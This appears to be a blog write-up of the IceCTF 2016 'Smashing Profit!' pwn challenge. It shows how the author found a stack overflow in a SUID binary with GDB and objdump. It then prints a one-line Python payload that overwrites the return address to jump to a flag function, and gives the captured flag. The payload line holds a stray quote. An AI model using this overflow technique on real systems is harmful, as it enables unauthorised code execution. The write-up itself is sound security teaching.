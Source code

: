 ```yaml
---
layout: post
title: IceCTF 2016 Smashing Profit! Writeup
---
```


Smashing Profit!, 60 points, Pwn

For this challenge we need to connect to the shell IceCTF gives us.
So lets first log in and see what we are given.

Once in we browse to /home/profit and do an ls on the dir.

We see there is a Makefile, a SUID binary, and a flag.txt file.

The first thing I do when pwning a binary is throw it in GDB and throw a
pattern at it.

```
(gdb) r
Starting program: /home/profit/profit
Smashing the stack for fun and...?
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU

Program received signal SIGSEGV, Segmentation fault.
0x54545454 in ?? ()
```
Looking at this info we see it Seg Faults at the letter T.

From here we need to find out what we want to jump too, so lets run

```
objdrump -D profit
```

After running this and going through the output we see a function called flag at the address 0x0804850b.

With all this information we can go ahead and pwn this program.

To do this I decided to run a python command that was as follows
```
python -c "print 'A'*76'+'\x0b\x85\x04\x08'" | ./profit
```
The \x0b\x85\x04\x08 is just the flag address translated into little endian.

After running this you get the output **IceCTF{who_would_have_thunk?}**
